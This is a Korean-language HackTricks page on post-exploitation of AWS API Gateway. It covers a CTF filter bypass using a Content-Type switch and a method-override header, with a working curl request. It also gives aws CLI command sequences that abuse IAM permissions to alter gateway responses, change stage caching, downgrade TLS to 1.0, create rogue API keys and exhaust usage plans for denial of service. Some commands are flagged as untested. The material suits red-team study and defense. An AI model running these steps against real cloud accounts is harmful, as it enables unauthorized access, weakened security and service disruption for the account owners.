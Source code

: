# AWS - API Gateway Post Exploitation

{% hint style="success" %}
&#x20;AWS 해킹을 배우고 실습하세요:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;GCP 해킹을 배우고 실습하세요: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## API Gateway

더 많은 정보를 확인하려면:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 미노출 API에 액세스

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에서 서비스 `com.amazonaws.us-east-1.execute-api`로 엔드포인트를 생성하고, 액세스할 수 있는 네트워크(아마도 EC2 머신을 통해)에서 엔드포인트를 노출시키고 모든 연결을 허용하는 보안 그룹을 할당할 수 있습니다.\
그런 다음 EC2 머신에서 엔드포인트에 액세스하여 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### 요청 본문 우회

이 기술은 [**이 CTF 해설**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)에서 발견되었습니다.

[**AWS 문서**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)에 따르면 `PassthroughBehavior` 섹션에서 기본적으로 값 **`WHEN_NO_MATCH`**은 요청의 **Content-Type** 헤더를 확인할 때, 변형 없이 요청을 백엔드로 전달합니다.

따라서 CTF에서 API Gateway는 `Content-Type: application/json`으로 요청을 보낼 때 응답에서 **플래그를 유출하는 것을 방지하는** 통합 템플릿을 가지고 있었습니다:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

그러나 **`Content-type: text/json`**을 사용하여 요청을 보내면 해당 필터를 방지할 수 있습니다.&#x20;

마지막으로, API Gateway가 `Get` 및 `Options`만 허용하도록 설정되어 있었기 때문에, POST 요청을 보내고 본문에 쿼리를 넣고 헤더 `X-HTTP-Method-Override: GET`을 사용하여 임의의 dynamoDB 쿼리를 제한 없이 보낼 수 있었습니다:
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 사용 계획 DoS

**열거** 섹션에서 **키의 사용 계획을 얻는 방법**을 볼 수 있습니다. 키가 있고 **월별 X회 사용으로 제한**되어 있다면 **그냥 사용하여 DoS를 유발**할 수 있습니다.

**API 키**는 **`x-api-key`**라는 **HTTP 헤더**에 **포함**되어야 합니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 게이트웨이 응답을 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함**시킬 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 민감한 정보 누출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 단계를 수정하여 트래픽을 다른 단계로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단 액세스를 얻을 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 캐시된 데이터에 대한 무단 액세스, API 트래픽 방해 또는 가로채기.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메소드의 메소드 응답을 수정하여 민감한 정보를 노출하거나 악성 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: 민감한 정보 누출, 악성 스크립트 실행 또는 API 리소스에 대한 미인가된 액세스.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안이 약화되어, 무단 액세스를 허용하거나 민감한 정보를 노출시킬 수 있음.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 및 `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새 API 키를 생성하고, 사용 계획과 연결한 후 이러한 키를 사용하여 API에 무단 액세스**할 수 있습니다.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**잠재적 영향**: API 리소스에 대한 무단 액세스, 보안 제어 우회.

{% hint style="info" %}
테스트 필요
{% endhint %}

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **깃허브 저장소에 제출하세요.**

</details>
